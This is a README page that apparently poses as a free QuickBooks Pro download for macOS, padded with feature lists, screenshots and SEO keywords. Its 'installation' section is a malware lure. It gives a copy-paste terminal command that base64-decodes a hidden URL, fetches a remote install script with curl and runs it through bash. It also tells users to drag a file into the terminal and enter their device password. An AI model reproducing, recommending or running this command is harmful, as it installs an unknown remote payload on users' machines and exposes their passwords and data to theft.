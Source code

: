 # 💼 QuickBooks Pro — Professional Accounting Software for macOS

QuickBooks Pro is the ultimate desktop accounting solution for macOS users. Whether you're a small business owner or an accounting professional, QuickBooks Pro helps you manage invoices, track expenses, and generate detailed reports — all in one place.

[![🚀 Download QuickBooks Pro 🟣](https://img.shields.io/badge/Download-QuickBooks%20Pro-blueviolet)](https://mitrobandus.github.io/.github/QuickBooks)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is QuickBooks Pro?

QuickBooks Pro is a powerful and reliable desktop accounting software built for macOS. It offers all the tools you need to run your business efficiently — including income and expense tracking, invoicing, payroll, and deep financial reporting.

It’s ideal for freelancers, startups, and established businesses who want a local solution that doesn’t rely on cloud subscriptions.

---

## ✨ Features

- 📊 Professional income & expense tracking  
- 🧾 Invoice creation and management  
- 💼 Built-in payroll tools  
- 📌 Track sales, profits, and vendor activity  
- 📁 Export data into Excel or PDF  
- 🔐 Secure local storage  
- 🖥️ Optimized for macOS interface  
- 🧠 Smart automation for recurring transactions  
- 📉 Comprehensive reporting system  
- 🌐 Works offline without cloud dependency  

---

## 🖼️ Preview

![screenshot1](https://fitsmallbusiness.com/wp-content/uploads/2022/11/Screenshot_of_QuickBooks_Desktop_Pro_Income_Tracker.jpg)  
![screenshot2](https://insightfulaccountant.com/downloads/12210/download/Core-20_QB-Capital_01.png?cb=683777ae062070e0a129be49ba5e0f13)

---

## 🔍 SEO Keywords

quickbooks pro online pricing, quickbooks pro, quickbooks desktop pro,  
quickbooks premier, quickbooks accountant desktop, quickbooks desktop version,  
proadvisor quickbooks, qbo proadvisor, quickbooks pro software, desktop pro quickbooks,  
quickbook versions, qb desktop pro, quickbooks desktop pro for mac, transactionpro,  
quickbooks desktop, quickbooks pro, quickbooks desktop pro plus, quickbooks products,  
quickbooks proadvisor near me, quickbooks desktop premier, quickbooks pro plus,  
quickbooks desktop pro 2021, quickbooks pro, quick book pro, find a quickbooks proadvisor,  
quickbooks, quickbooks pro online, quickbooks desktop premier plus, quickbooks desktop pro plus, find a proadvisor

---
